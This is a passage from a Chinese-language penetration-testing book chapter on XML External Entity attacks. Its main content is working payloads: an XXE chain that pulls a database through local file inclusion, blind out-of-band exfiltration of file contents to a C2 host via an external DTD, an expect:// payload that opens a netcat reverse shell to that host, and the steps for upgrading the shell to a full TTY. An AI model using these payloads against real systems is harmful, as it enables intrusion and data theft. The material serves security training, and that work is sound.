

图 10.12：使用 XXE 在内部主机上利用 LFI

`settings.py` 文件包含一些有趣的信息，包括数据库凭证和 `sqlite3` 文件路径。记下这些信息以供将来使用是没有坏处的。一个值得注意的文件是 SQLite 3 数据库本身，它位于 `10.0.5.19` 内部主机的 `c:\db\badguys.sqlite3` 路径下。

我们可以使用相同的 LFI 攻击来抓取其内容。

仅仅通过更改 `p` 路径到数据库文件存在一个问题：

```
http://10.0.5.19/user-pic?p=**../../../../../../db/badguys.sqlite3**

```

在正常的 LFI 情况下，这种方法完全可行。我们遍历足够的目录以达到驱动器的根目录，切换到 `db` 目录，并抓取 `badguys.sqlite3` 文件。

你会注意到，在我们的有效载荷中，SQLite 3 数据库的内容将被抓取并插入到 `<xxe>` 标签中，解析器在处理 XML 数据之前：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY exfil SYSTEM "http://10.0.5.19/user-pic?p=../../../../../../db/badguys.sqlite3">
]>
**<xxe>&exfil;</xxe>**

```

SQLite 3 的文件格式包含一些大多数 XML 解析器处理时会遇到问题的字符，因此解析错误可能会阻止我们抓取内容。

如果我们按原样运行有效载荷，我们会观察到尽管数据库的内容已被抓取，应用程序并没有返回它们，因为它尝试将其作为 `<xxe>` 标签的一部分进行解析。SQLite 3 的二进制格式并不真正适合 XML：



图 10.13：XXE 攻击未能返回数据库的内容

为了绕过这个问题，理想情况下，我们希望 XML 解析器在将数据注入到 `<xxe>` 标签进行处理之前，先对它从易受攻击的内部应用程序获取的数据进行编码。

XML 解析器应用程序是用 PHP 编写的，因此可以访问各种转换过滤器，这些过滤器可以应用于流式数据，如从 URL 获取的资源。可以通过 `php://` 协议访问过滤器，如下所示：

```
php://filter/convert.base64-encode/resource=**[URL]**

```

可用的转换过滤器之一是 `base64-encode`，这在我们的案例中将非常有用。

### 注意

PHP 的文档显示了所有可用的过滤器，[`php.net/manual/en/filters.php`](http://php.net/manual/en/filters.php)。数据可以在传输过程中进行转换、加密或压缩。

要对 SQLite 3 数据库的内容进行 Base64 编码，我们需要伪造一个请求，指向以下 URI：

```
php://filter/convert.base64-encode/resource=**http://10.0.5.19/user-pic?p=../../../../../../db/badguys.sqlite3**

```

`convert.base64-encode` 过滤器已应用于包含我们所需数据库内容的远程资源。返回将是一个长的 Base64 字符串，应该不会再引发解析器错误：



图 10.14：使用 PHP Base64 过滤器修改重复攻击

现在我们可以通过 CyberChef 运行 Base64 响应，并选择将解码后的数据保存到文件中：



图 10.15：从内部主机提取的 SQL 数据库

### 注意

CyberChef 是一个非常棒的数据处理工具，可以在线使用或从 GCHQ 下载，[`gchq.github.io/CyberChef/`](https://gchq.github.io/CyberChef/)。

成功了！我们通过链式利用两个漏洞成功泄露了来自内部系统的数据库：

```
XML External Entity (**XXE**) Server-side Request Forgery (**SSRF**) -> Local File Inclusion (**LFI**)
```

正如我们所见，请求伪造，特别是 XXE（因为我们可以获取响应的内容），在渗透测试中可能非常有价值。

## 盲 XXE

正如你在日常工作中可能已经看到的，并非所有 XML 解析器都像前面的例子那样冗长。许多 Web 应用程序被配置为抑制错误和警告，有时甚至不会将任何有用的数据返回给你。之前的攻击依赖于有效载荷被处理且实体被回显到屏幕上的事实，这使得我们能够轻松地进行数据泄漏。

然而，在某些情况下，这可能无法实现。

为了展示这个攻击，我们将修补我们的 XML 解析器应用程序，抑制 PHP 错误信息，并在每次提交后显示一个通用信息：



图 10.16：修改后的 PHP XML 解析器不返回数据

第 2、3 和 22 行将使我们之前的信息泄露攻击无效。即使我们成功利用 XXE，我们也无法看到我们尝试获取的文件内容。然而，SSRF 攻击仍然有效，但在实际利用中并不如 XXE 那么直接。



图 10.17：盲 XXE 攻击不会产生任何可用的输出

如果应用程序在利用后没有返回任何有用的内容，我们该如何进行数据外泄？

我们需要更具创意。带外漏洞识别使用 C2 服务器来确认应用程序是否存在漏洞，通过观察传入的网络连接。确认盲 XXE 漏洞也可以通过带外方式完成，正如之前的例子所示，可以使用 Burp Collaborator 或外部 C2 服务器。

如果我们不指示 XML 解析器通过`<xxe>&exfil;</xxe>`标签返回所需的数据，而是采用带外的方法，会怎样呢？由于我们无法在浏览器中返回数据，我们可以要求解析器连接到 C2 服务器并将数据附加到 URL 上。这样我们就可以通过分析 C2 服务器的访问日志来获取内容。

我们知道可以使用流过滤器将文件内容进行 Base64 编码。现在让我们将这两者结合起来，尝试将数据发送到 C2 服务器，而不是 Web 浏览器。

我们需要在 XML 有效载荷中定义的实体大概是这样的：

```
<!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
<!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
```

细心的读者会注意到实体名称前面出现了新的百分号字符。这表示这是一个参数实体，而非我们之前使用的通用实体。通用实体可以在根元素树中的某个位置引用，而参数实体可以在 DTD 或文档的头部引用：

+   参数实体以百分号字符（`%`）为前缀

+   通用实体以与号字符（`&`）为前缀

下一步是尝试将这两个实体放入我们之前的有效载荷中：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
  <!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
  **%conn;**
]>
<xxe>&exfil;</xxe>
```

如你所见，我们在`DOCTYPE`中定义了`%data`和`%conn`参数实体。`%conn`实体还定义了一个通用实体`&exfil`，它将把 Base64 编码的`%data`实体附加到我们的 C2 URL 上进行外泄。

紧接在参数实体定义后，我们评估`%conn`，它将启动数据收集和编码过程。这也将定义`&exfil`，稍后在文档正文中被调用。

简单来说，易受攻击的 XML 解析器将执行以下操作：

+   尝试扩展`%data`，并通过此操作获取`/etc/issue`文件的内容

+   使用`php://filter`方案对`/etc/issue`的内容进行编码

+   尝试扩展`%conn`，并通过此操作连接到我们的 C2 服务器`c2.spider.ml`

+   通过 URL 传递`%data`的 Base64 内容

不幸的是，由于 XML 标准的限制，载荷不能按原样工作。对参数实体（如`%data`和`%conn`）的引用在标记声明中是不允许的。我们必须使用外部 DTD 来定义这些实体。

我们可以使用`xmllint` Linux 命令在本地检查我们的载荷是否有错误，如下所示：

```
root@kali:/tools# xmllint payload.xml
payload.xml:5: parser error : **PEReferences forbidden in internal subset**
  <!ENTITY % conn "<!ENTITY exfil SYSTEM 'http://c2.spider.ml/exfil?%data;'>">
                                                                 ^
payload.xml:5: parser warning : not validating will not read content for PE entity data
  <!ENTITY % conn "<!ENTITY exfil SYSTEM 'http://c2.spider.ml/exfil?%data;'>">
                                                                 ^
payload.xml:6: parser error : PEReference: %conn; not found
    %conn;
          ^
payload.xml:8: parser error : Entity 'exfil' not defined
<xxe>&exfil;</xxe>
            ^
```

### 注释

`xmllint`可在 Debian 系发行版（如 Kali）的`libxml2-utils`包中找到。

解决方法非常简单。我们将在 C2 服务器上将`%data`和`%conn`的实体声明存储在外部 DTD 文件中：

```
root@spider-c2-1:~/c2/xxe# cat **payload.dtd**
<!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
<!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
```

我们还将设置一个简单的 Web 服务器，通过`php -S`命令向目标提供`payload.dtd`，如图所示：

```
root@spider-c2-1:~/c2/xxe# php -S 0.0.0.0:80
PHP 7.0.27-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/c2/xxe
Press Ctrl-C to quit.
```

修改后的载荷将如下所示：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
    <!ELEMENT xxe ANY >
    <!ENTITY % dtd SYSTEM "**http://c2.spider.ml/payload.dtd**">
    **%dtd;**
    **%conn;**
]>
<xxe>**&exfil;**</xxe>
```

这里唯一的实际区别是，我们将两个参数实体声明移到了外部 DTD 中，并在 XML `DOCTYPE`中引用它。

正如预期的那样，我们的 XML 数据没有生成任何错误，也没有返回任何数据。我们目前无法得知具体情况：



图 10.18：修改后的 XML 漏洞利用代码

然而，在`c2.spider.ml C2 服务器`上，我们可以看到来自目标的两个 HTTP 请求：

```
root@spider-c2-1:~/c2/xxe# php -S 0.0.0.0:80
PHP 7.0.27-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/c2/xxe
Press Ctrl-C to quit.
[] 107.181.189.72:42582 [200]: **/payload.dtd**
[] 107.181.189.72:42584 [404]: **/exfil?S2FsaSBHTlUvTGludXggUm9sbGluZyBcbiBcbAo=**
[...]
```

第一个请求请求的是`payload.dtd`文件；这意味着我们已确认 XXE 漏洞。文件内容已被处理，随后的对包含我们数据的`exfil` URL 的调用几乎立即出现在日志中。

再次使用 CyberChef，Base64 解码 URL 数据后，我们得到了 XML 解析器应用服务器上`/etc/issue`文件的内容：



图 10.19：CyberChef 解码 Base64 外泄数据

这种外泄方法对于较小的文件效果很好，但通过 HTTP 发送大块的 Base64 数据可能会遇到问题。大多数客户端，如 PHP 或 Java，无法处理长度超过大约 2,000 个字符的 URL。在某些情况下，最多可能允许 4,000 个字符。不同的客户端实现差异很大，因此在使用 XXE 窃取数据时，请记住这些限制。

## 远程代码执行

啊，没错，这是渗透测试的圣杯。虽然远程代码执行较为少见，但在某些 XXE 漏洞的应用部署中，它是可能发生的。松散的配置和易受攻击的组件可能使我们能够利用 XML 解析器，从而实现远程代码执行。

在之前的示例中，我们利用了一个相对简单的有效载荷从磁盘读取数据：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY exfil SYSTEM "file://**/etc/passwd**">
]>
<xxe>**&exfil;**</xxe>
```

一旦解析，`<xxe>` 标签将包含 `/etc/passwd` 文件的内容。得益于 PHP 的 `expect` 模块，要求 PHP 执行代码变得不那么困难。虽然默认情况下并不常部署，但 `expect` 扩展为 PHP 应用程序提供了一个 `expect://` 包装器，使得开发者可以通过类似 URL 的语法执行 shell 命令。

与 `file://` 包装器类似，`expect://` 提供对 PTY 流的读写访问，而不是对文件系统的访问。开发者可以使用 `fopen` 函数结合 `expect://` 包装器来执行命令并获取其输出：

```
<?php
$stream = fopen("expect://ssh root@remotehost uptime", "r");
?>
```

上述代码将打开一个只读流，连接到底层系统 shell，执行 `ssh root@remotehost` 命令，并在连接后，远程主机将执行 uptime 命令。

一旦完成，结果可以在应用程序的其余部分中使用。

在攻击 XML 时，我们不需要执行 PHP 代码并调用 `fopen` 函数。`expect://` 包装器在 XML 解析器中已经可以直接使用。

使用 `expect://` 相比于内置的系统 `passthru` 命令执行有其优势，因为它允许与终端进行一些交互，而 shell `passthru` 命令则更加有限。因此，你仍然可能会遇到这个模块已安装并启用的情况。

要在启用了 `expect` 模块的系统上看到这个操作，我们可以执行以下有效载荷。我们传递给 `expect://` 的命令是一个简单的 netcat bash 重定向器，指向我们位于云端的 C2 服务器 `c2.spider.ml`：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY shell SYSTEM "**expect://nc -e bash c2.spider.ml 443**">
]>
<xxe>**&shell;**</xxe>
```

这的美妙之处在于我们不一定关心输出。如果这是一个盲目 XXE 攻击，我们的 shell 会正常生成。

一旦 XML 有效载荷被解析，且应用程序尝试展开 shell 实体，`expect` 模块将执行我们在目标上使用的 netcat 命令，我们将获得对应用服务器的 shell 访问：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
**id**
**uid=33(www-data) gid=33(www-data) groups=33(www-data)**
**pwd** 
**/var/www/html/xml**

```

Netcat 并不是唯一的 shell 选项。如果我们通过 `expect://` 获得代码执行权限，还可以上传 Meterpreter 有效载荷，并通过 Metasploit 控制台获取访问权限，从而获得更多的后期利用工具。有了远程代码执行，几乎没有限制。

### 交互式 Shell

通过 netcat 反向 shell 可以执行一些命令并可能读取文件，但它不提供交互性。为了在后期利用中更高效，我们需要访问一些工具，比如 Vim 或 SSH，它们需要一个合适的终端。

升级我们的 shell 需要几个步骤，有些人可能称之为魔法。首先，我们可以调用`python`来生成一个新的 TTY bash shell。虽然不完美，但比我们之前的要好：

```
python -c '**import pty; pty.spawn("/bin/bash")**'
```

如果你不熟悉 Python，这一行代码可能看起来很奇怪，但它其实做的就是导入`pty`包并生成一个 bash shell。

在我们的反向 shell 中，我们执行`python`命令，结果应该看起来很熟悉：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd   
/var/www/html/xml
**python -c 'import pty; pty.spawn("/bin/bash")'**
**www-data$**

```

仍然存在一些问题：虽然 Vim 能正常工作，但无法访问历史记录，*Tab* 补全也不起作用，*Ctrl*-*C*会终止 shell。

让我们更进一步，尝试通过`stty`和本地终端配置升级到完整的 TTY。

首先，一旦使用前面的 Python 一行代码升级了 shell，我们需要通过*Ctrl*-*Z*将进程发送到后台：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd   
/var/www/html/xml
**python -c 'import pty; pty.spawn("/bin/bash")'**
**www-data$ ^Z**
**[1]+  Stopped                 nc -lvp 443**
**root@spider-c2-1:~#**

```

我们需要通过检查`$TERM`变量来找出当前的终端类型：

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data$ ^Z
[1]+  Stopped                 nc -lvp 443
root@spider-c2-1:~# **echo $TERM**
**screen**

```

### 注意

我们的 C2 服务器正在一个`screen`会话中运行，但在典型的 Kali 安装中，你可能会看到`xterm-256color`或 Linux。

现在，我们需要配置好的终端显示行数和列数。为了获取这些值，我们使用`stty`程序并加上`-a`选项：

```
root@spider-c2-1:~# stty -a
speed 38400 baud; **rows 43**; **columns 142**; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = 
[...]
```

下一个命令可能看起来像是破坏了终端，但为了防止*Ctrl*-*C*终止我们的 shell，我们必须将 TTY 设置为`raw`并禁用每个字符的回显。我们在 shell 中输入的命令仍然会被处理，但没有激活反向 shell 时，终端本身可能看起来已经损坏。

我们告诉`stty`将终端设置为`raw`并通过`-echo`禁用回显：

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data$ ^Z
[1]+  Stopped                 nc -lvp 443
root@spider-c2-1:~# echo $TERM
screen
root@spider-c2-1:~# stty -a
speed 38400 baud; rows 43; columns 142; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = 
[...]
root@spider-c2-1:~# **stty raw -echo**

```

为了将我们的 shell 从后台恢复过来，我们输入`fg`命令。你会注意到，由于之前输入的`stty raw -echo`命令，这个命令并没有在终端中回显，但它应该还是会被处理：

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data$ ^Z
[1]+  Stopped                 nc -lvp 443
root@spider-c2-1:~# echo $TERM
screen
root@spider-c2-1:~# stty -a
speed 38400 baud; rows 43; columns 142; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = 
[...]
root@spider-c2-1:~# stty raw -echo
root@spider-c2-1:~# **nc -lvp 443**

```

从后台返回后，你将看到反向 shell 命令回显到屏幕上：`nc -lvp 443`，一切可能又看起来有些破损。没关系——我们可以输入`reset`来清理它。

在反向 shell 中，现在一切看起来都恢复正常，我们还需要设置相同的终端选项，包括行数、列数和类型，以便 shell 正常工作：

```
www-data$ **export SHELL**=**bash**
www-data$ **export TERM**=**screen**
www-data$ **stty rows 43 columns 142**

```

最终的结果是一个完全可用的终端，具有所有炫酷的功能，没错，我们甚至可以在我们的 netcat 反向 shell 中运行`screen`：



图 10.20：完全功能的交互式反向 shell

# 总结

在本章中，我们探讨了 XXE 漏洞利用在攻防演练中的实际应用。接着，我们讨论了潜在的 DoS 情况，这些情况如果小心使用，能够在红队攻击中提供干扰。

我们还研究了基于 XML 的请求伪造攻击，不仅可以进行端口扫描，还能通过链式利用攻击来访问我们本来无法接触到的易受攻击的应用程序。XXE 更常见的用途是从目标应用程序中泄露重要信息。我们不仅研究了传统的数据外泄方式，还探讨了在需要带外通信的场景下如何进行数据外泄。通过我们的云 C2 服务器，我们能够通过盲目 XXE 攻击来外泄数据。

最后，我们发现如何通过 XXE 实现远程代码执行。虽然这种攻击不太常见，但一些老旧的应用程序部署仍然可能成为此类攻击的受害者。

正如本章所展示的那样，文件格式解析器看似无害，但随着功能的增加，复杂性也随之而来，而复杂性正如他们所说，是安全性的敌人。XML 仍然无处不在，当它正确部署并锁定时，它非常强大。不幸的是，这并非总是如此，我们会利用每一个小小的错误。在接下来的章节中，我们将把注意力集中在 API 上，研究如何有效地测试和攻击它们。到目前为止你所学到的所有技能都将派上用场。
